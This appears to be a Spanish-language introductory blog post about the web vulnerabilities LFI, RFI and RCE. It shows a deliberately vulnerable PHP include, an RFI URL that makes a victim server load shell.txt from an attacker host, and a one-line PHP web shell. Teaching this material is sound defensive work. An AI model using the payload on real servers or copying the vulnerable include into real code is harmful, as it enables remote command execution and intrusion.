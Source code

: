 ```yaml
---
layout: post
title:  "Aprendiendo a identificar los diferentes ataques basicos a nivel Web"
description: Aprendiendo sobre las Vulnerabilidades " LFI // RFI // RCE "
tags: Web Attacks
---
```

Empezaremos por aprender las principales Vulnerabilidades a nivel Web
  
1 ~ LFI ~   Local File Inclusion
2 ~ RFI ~   Remote File Inclusion
3 ~ RCE ~   Remote Code Execution

1.- La vulnerabilidad de Local File Inclusion se produce como consecuencia de un fallo en la programación de la página, filtrando inadecuadamente lo que se incluye al usar funciones en PHP para incluir archivos.
Para poder corroborar si un sitio es vulnerable, se puede colocar un valor ilógico a la variable. 
En nuestro ejemplo tenemos: "http://localhost/index.php?page=" donde se coloca un valor, en este caso http://localhost/index.php?page=78se3, algo aleatorio que no se encuentre registrado.
Si arroja un error como Warning: main()… o Warning: include()… o similar entonces es probable que sea vulnerable a RFI o LFI

{% PHP - LFI Codigo Vulnerable por Detras %}
<?php
include $_GET[‘pagina’];
?>
{% endhighlight %}


La vulnerabilidad de Remote File Inclusion se produce cuando:

Una página vulnerable que presente un aspecto similar a este en su URL:   " http://[servidor_victima]/index.php?page=plantilla.html "

El atacante (Nosotros) podriamos obtener una Shell en el servidor vulnerable mediante lo siguiente:

---html
http://[servidor_victima]/index.php?page=http://[servidor_atacante]/shell.txt&&cmd=ls
---

Pudiendo contener el archivo shell.txt cualquier código, por ejemplo:
--- php
<?php
  system($cmd);
?>
---
